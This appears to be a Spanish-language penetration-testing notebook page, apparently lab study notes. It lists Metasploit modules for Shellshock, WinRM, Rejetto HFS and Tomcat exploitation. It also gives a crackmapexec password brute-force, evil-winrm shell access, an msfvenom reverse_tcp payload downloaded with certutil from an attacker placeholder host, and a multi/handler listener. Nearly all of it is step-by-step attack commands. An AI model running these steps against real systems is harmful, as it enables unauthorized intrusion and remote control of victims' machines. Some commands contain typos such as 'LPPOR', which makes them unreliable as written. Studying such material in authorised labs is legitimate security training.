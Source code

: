 #### SHELLSHOCK

| MODULO                                            | FUNCION                | Opciones                    | Wordlist |
| ------------------------------------------------- | ---------------------- | --------------------------- | -------- |
| *exploit/multi/http/apache_mod_cgi_bash_env_exec* | Explotación SHELLSHOCK | set Targeturi  /gettime.cgi |          |


#### WINRM

Usaremos la herramienta de [[CRACKMAPEXEC-NETEXEC]]
`crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/dat/wordlists/unix_passwords.txt`

Nos muestra el usuario y la contraseña, para poder ejecutar comandos en el servicio usaremos de nuevo [[CRACKMAPEXEC-NETEXEC]]
`crackmapexec winrm <IP_victinma> -u administrador -p <password> -x "<comando>"`

Si queremos obtener una sesión con una shell usaremos EVIL-WINRM.RB
`evil-winrm.rb -u <user> -p '<password'> -i <IP_victima>`
Se nos establecerá una shell.

Para hacerlo con [[METASPLOIT]]

| MODULO                                       | FUNCION           | Opciones                               | Wordlist |
| -------------------------------------------- | ----------------- | -------------------------------------- | -------- |
| *auxiliary/scanner/winrm/win_rm_auth_method* | Escaneo WINRM     |                                        |          |
| *auxiliary/scanner/winrm/winrm_login*        | Escaneo WINRM     |                                        |          |
| *exploit/windows/winrm/winrm_script_exec*    | Explotación WINRM | FORCE_VBS true<br>USERNAME<br>PASSWORD |          |

#### HTTPFILESERVER HSF

| MODULO                                  | FUNCION                    | Opciones | Wordlist |
| --------------------------------------- | -------------------------- | -------- | -------- |
| *exploit/windows/http/rejetto_hfs_exec* | Explotación HTTPFILESERVER |          |          |


#### APACHE TOMACAT

| MODULO                                        | FUNCION            | Opciones                                             | Wordlist |
| --------------------------------------------- | ------------------ | ---------------------------------------------------- | -------- |
| *exploit/multi/http/tomcat_jsp_upload_bypass* | Explotación TOMCAT | set payload java/jsp_shell_bind_tcp<br>set SHELL cmd |          |
Una vez establecida la sesión la pondremos en segundo plano y crearemos un payload con [[MSFVENOM]]
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP_local> LPPOR=1234 -f exe > meterpreter.exe`

Levantaremos un servicio con python3
`python3 -m http.server 80`

Desde la sesión obtenida en el exploit usaremos el siguiente comando para obtener el archivo del servidor de python3
`certutil -urlcache -f http://<IP_Atcante>/meterpreter.exe meterpreter.exe`

Una vez obtenido, en una pestaña nueva abriremos [[METASPLOIT]] y usaremos el modulo
`use multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST <IP_Atacante>`
`set LPORT 1234`
`run`
